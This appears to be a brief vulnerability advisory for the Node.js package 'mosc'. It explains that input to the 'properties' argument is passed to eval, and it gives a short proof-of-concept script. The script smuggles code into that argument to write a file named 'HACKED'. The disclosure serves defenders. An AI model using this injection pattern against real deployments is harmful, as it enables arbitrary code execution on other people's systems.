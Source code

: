 # Overview

mosc is an a simple inline object model builder for NodeJS (A small port exists for client-side javascript).

This package is vulnerable to Arbitrary Code Execution. User input provided to `properties` argument is executed by the eval function, allowing code execution.

# Proof of Concept

```
var A = require("mosc");
var a = new A({});
var key = "";
var attack_code = "fs=require('fs');fs.writeFile('HACKED');"
var properties = "{a:*1*; " + attack_code + " //*}"

var a = a.parse_properties(key,properties,{},{})
```
